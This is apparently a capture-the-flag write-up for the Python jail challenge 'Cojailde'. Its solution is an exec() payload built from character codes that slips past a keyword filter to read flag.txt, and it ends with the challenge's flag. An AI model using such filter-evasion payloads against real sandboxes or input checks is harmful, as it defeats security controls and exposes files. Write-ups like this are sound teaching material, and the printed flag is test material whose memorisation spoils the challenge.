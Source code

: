 # Cojailde

## Description
Try reading the file if you can AHAHAHAHAHAH

## Solution
By writing the string in the form of numbers you avoid censorship, so just rearrange it and execute it:

```python
solve = 'exec( "".join([ chr(i) for i in [112, 114, 105, 110, 116, 40, 111, 112, 101, 110, 40, 39, 102, 108, 97, 103, 46, 116, 120, 116, 39, 44, 39, 114, 39, 41, 46, 114, 101, 97, 100, 40, 41, 41] ]) )'

```

## Flag
`CodeVinciCTF{4_v3r1 34s1_t0_r34d_f1l3_r1gh7?}`

## Author
`sDibuon`
[benjamin](@b3nj4m1no)

